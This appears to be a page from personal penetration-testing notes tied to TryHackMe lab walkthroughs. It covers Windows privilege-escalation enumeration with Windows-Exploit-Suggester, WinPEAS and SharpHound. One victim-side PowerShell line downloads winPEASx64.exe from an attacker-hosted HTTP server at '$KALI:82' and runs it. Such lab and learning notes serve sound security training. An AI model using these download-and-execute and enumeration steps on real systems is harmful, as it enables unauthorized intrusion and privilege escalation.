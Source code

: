 [hackpark.md](../../../../walkthroughs/tryhackme/hackpark.md "mention")

**Setup**

Run command then paste output back to Kali in a file called systeminfo.txt

**Victim**

```
systeminfo
```

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

## **WinPeas**

**Examples**

[hackpark.md](../../../../walkthroughs/tryhackme/hackpark.md "mention")

**Setup**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 82
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:82/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```



## SharpHound

**Examples**

[post-exploitation-basics.md](../../../../walkthroughs/tryhackme/post-exploitation-basics.md "mention")

Add this line to SharpHound.ps1 before transferring so I could run the command right away

<figure><img src="../../../../.gitbook/assets/image (3) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>
